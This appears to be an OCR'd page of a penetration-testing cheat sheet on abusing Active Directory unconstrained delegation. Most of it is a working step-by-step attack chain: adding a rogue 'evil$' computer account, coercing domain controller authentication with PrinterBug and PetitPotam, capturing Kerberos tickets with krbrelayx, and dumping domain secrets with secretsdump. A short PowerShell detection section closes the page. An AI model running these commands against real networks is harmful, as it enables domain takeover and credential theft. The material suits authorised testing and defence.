 ### Unconstrained Delegation Practical Attack Example

#### Step 1: Identify Unconstrained Delegation

```powershell
# Find computers with unconstrained delegation
Get-ADComputer -Filter {TrustedForDelegation -eq $true} -Properties TrustedForDelegation

# Find users with unconstrained delegation
Get-ADUser -Filter {TrustedForDelegation -eq $true} -Properties TrustedForDelegation
```

#### Step 2: Create Attack Infrastructure

```bash
# Create a computer account
addcomputer.py -dc-ip 10.10.10.10 -computer-name evil$ -computer-pass P@ssw0rd! domain/user:password

# Configure for unconstrained delegation
bloodyAD --host 10.10.10.10 -u user -p password -d domain add uac -f TRUSTED_FOR_DELEGATION evil$
```

#### Step 3: Force Authentication

```bash
# Using PrinterBug
printerbug.py domain/user:password@target.domain.local evil.domain.local

# Using PetitPotam
PetitPotam.py -u evil$ -p 'P@ssw0rd!' -d domain -dc-ip 10.10.10.10 evil.domain.local 10.10.10.10
```

#### Step 4: Capture and Use Tickets

```bash
# Set up KrbRelayX to capture tickets
krbrelayx.py --krbsalt 'DOMAINevil' --krbpass 'P@ssw0rd!' --interface-ip 10.10.14.5

# Use captured tickets
export KRB5CCNAME=DC1\$@DOMAIN.COM_krbtgt@DOMAIN.COM.ccache
secretsdump.py -k -no-pass 'DC1$@dc1.domain.local'
```

### Unconstrained Delegation Detection

#### PowerShell Detection

```powershell
# Find all accounts with unconstrained delegation
$computers = Get-ADComputer -Filter {TrustedForDelegation -eq $true} -Properties TrustedForDelegation
$users = Get-ADUser -Filter {TrustedForDelegation -eq $true} -Properties TrustedForDelegation

Write-Host "Computers with Unconstrained Delegation:"
$computers | Select-Object Name, DistinguishedName

Write-Host "Users with Unconstrained Delegation:"
$users | Select-Object Name, DistinguishedName
```
